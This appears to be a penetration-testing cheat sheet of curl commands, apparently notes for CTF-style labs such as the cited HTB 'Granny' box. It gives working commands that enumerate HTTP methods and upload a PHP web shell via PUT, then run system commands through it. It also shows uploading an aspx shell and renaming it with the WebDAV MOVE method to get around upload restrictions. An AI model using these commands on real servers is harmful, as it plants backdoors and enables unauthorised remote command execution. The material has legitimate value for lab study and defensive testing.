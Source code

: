 # Curl

#### Enumerate HTTP methods 
```bash
 # curl -v -X OPTIONS http://172.168.1.10/test

 -v : Used for debugging
 -X : Specifies a custom request method
```

#### Upload a php file 
```bash
 # curl -v -X PUT -d "<?php phpinfo();?>" http://172.168.1.10/test/test.php

 -d : Sends the specified data in a POST request to the HTTP Server

 Upload file and then test that it is there
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @cmdasp.aspx
 - Uploading an aspx file when it is not allowed via the put command 
 
 # curl -X PUT http://xx.xx.xx.xx/df.txt -d @test.txt 
 Ref: http://0xdf.gitlab.io/2019/03/06/htb-granny.html 
 - The -d @text.txt syntax says that the data for the request should be the contents of the file text.txt
 
 # curl http://xx.xx.xx.xx
```

#### Upload a PHP shell file
```bash
 # curl -X PUT -d '<?php system($_GET["cmd"]);' http://172.168.1.10/test/cmd.php

 # To run the file

 # curl "http://172.168.1.10/test/cmd.php?cmd=ls%20-lha"
```

#### Download files from FTP server
```bash
 # curl -u ftpuser:ftppass -O ftp://ftp_server/public_html/users.txt

 -u : Specifies the username and password
 -O : Saves output to local director
```

#### To access an https site unsecurely
 ```bash
 # curl -k, --insecure 
 
 -k : Process the url insecurely and ignore ssl errors
 ```
 
#### Using the MOVE method via curl
```bash
 # curl -X MOVE -H 'Destination:http://xx.xx.xx.xx/Oxdf.aspx' http://xx.xx.xx.xx/0xdf.txt 
 
 -H : <header/@file> Pass custom header(s) to server 
```
